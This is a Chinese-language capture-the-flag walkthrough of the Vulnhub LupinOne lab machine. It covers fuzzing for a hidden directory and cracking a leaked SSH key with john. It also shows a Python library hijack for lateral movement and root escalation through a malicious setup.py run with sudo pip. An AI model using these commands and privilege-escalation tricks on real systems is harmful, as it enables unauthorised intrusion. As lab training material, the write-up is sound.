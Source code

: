 绝了。

what can i say？

嘛，就当学习了**wfuzz**）

---

## Vulnhub-Empire: LupinOne题解

本靶机为Vulnhub上Empire系列之LupinOne，地址：[EMPIRE: LUPINONE](https://www.vulnhub.com/entry/empire-lupinone,750/)

### 扫描与发现

利用`arp-scan`命令扫描靶机IP

```mipsasm
arp-scan -l
```

![img](https://img2020.cnblogs.com/blog/2419541/202111/2419541-20211126114931272-1489557369.png)

利用`nmap`扫描开放端口

```css
nmap -sV -p- 192.168.164.190
```

![img](https://img2020.cnblogs.com/blog/2419541/202111/2419541-20211126114948696-1540008816.png)

### 目标探索

浏览器打开80端口，发现是一张图片，没有其他内容，检测源代码也没有发现有用信息

![img](https://img2020.cnblogs.com/blog/2419541/202111/2419541-20211126115005497-438124078.png)

检查`robots.txt`文件发现`/~myfiles`目录，打开却发现Error 404

![img](https://img2020.cnblogs.com/blog/2419541/202111/2419541-20211126115020078-347234152.png)

在旧版本的Apache服务器中，~ 指代用户主目录，我们可以尝试找到与此相似的路径，使用`wfuzz`工具对其路径进行测试，发现`~secret`目录

```ruby
wfuzz -c -z file,/usr/share/wordlists/wfuzz/general/common.txt --hc 403,404 http://192.168.164.190/~FUZZ
```

![img](https://img2020.cnblogs.com/blog/2419541/202111/2419541-20211126115034425-1946527080.png)

在浏览器中打开该路径`~secret/`发现一段文字

![img](https://img2020.cnblogs.com/blog/2419541/202111/2419541-20211126115046427-1537791620.png)

上面称这是一个秘密目录，这里隐藏了他创建的ssh 私钥文件，并且得知用户名为`icex64`。接下来继续在该路径下搜索文件，得到`.mysecret.txt`文件

```bash
wfuzz -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  --hc 404,403 -u http://192.168.164.190/~secret/.FUZZ.txt
```

![img](https://img2020.cnblogs.com/blog/2419541/202111/2419541-20211126115101762-1917292882.png)

浏览器打开发现是一串编码后的字符串

![img](https://img2020.cnblogs.com/blog/2419541/202111/2419541-20211126115123364-1549518720.png)

可以使用编码识别工具进行识别，发现其为Base58，使用在线工具进行解码得到私钥文件内容

![img](https://img2020.cnblogs.com/blog/2419541/202111/2419541-20211126115142141-1681107022.png)

### 拿到shell

在本地创建文件key，将私钥保存到其中，然后使用`john`工具破解密码

```bash
python2 /usr/share/john/ssh2john.py key > keyhash
john keyhash --wordlist=/usr/share/wordlists/fasttrack.txt
```

![img](https://img2020.cnblogs.com/blog/2419541/202111/2419541-20211126115233444-2009431106.png)

得到密码为`P@55w0rd!`。将key 文件权限设为600（否则无法连接），然后利用ssh连接`icex64`用户

```perl
chmod 600 key
ssh icex64@192.168.164.190 -i key
```

![img](https://img2020.cnblogs.com/blog/2419541/202111/2419541-20211126115244925-2141247299.png)

### 水平越权

拿到shell后搜索`suid`文件，`Capability`文件，`sudo -l`发现可以执行一条命令

![img](https://img2020.cnblogs.com/blog/2419541/202111/2419541-20211126115256301-970320644.png)

来到/home/arsene目录下，查看heist.py文件权限，没有修改权限，查看内容，发现其调用了`webbrower.open()`

![img](https://img2020.cnblogs.com/blog/2419541/202111/2419541-20211126115307529-1606611762.png)

我们通过`find`找到该文件的位置，查看其权限，发现可以写入内容

```bash
find /usr/ -name '*webbrowser*'
ls -l /usr/lib/python3.9/webbrowser.py
```

![img](https://img2020.cnblogs.com/blog/2419541/202111/2419541-20211126115319963-1343891168.png)

我们可以直接编辑该文件，写入调用shell脚本（或者反弹shell脚本）

![img](https://img2020.cnblogs.com/blog/2419541/202111/2419541-20211126115332875-1300040059.png)

保存退出，执行，获得arsene用户shell

```bash
sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py
```

![img](https://img2020.cnblogs.com/blog/2419541/202111/2419541-20211126115346038-749179116.png)

### 权限提升

拿到arsene用户权限后，查看`sudo -l`，发现可以免密执行`/usr/bin/pip`

```undefined
sudo -l
```

![img](https://img2020.cnblogs.com/blog/2419541/202111/2419541-20211126115358617-1023185760.png)

我们可以在当前路径下新创建一个目录并打开在里面创建`setup.py`文件，里面写入我们想运行的python脚本，如反弹shell，然后利用`pip install`以root权限执行。

```bash
mkdir tmp
cd tmp
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > setup.py
sudo pip install .
```

![img](https://img2020.cnblogs.com/blog/2419541/202111/2419541-20211126115409549-1246071179.png)

来到root目录下，打开root.txt拿到flag

![img](https://img2020.cnblogs.com/blog/2419541/202111/2419541-20211126115419899-1799323647.png)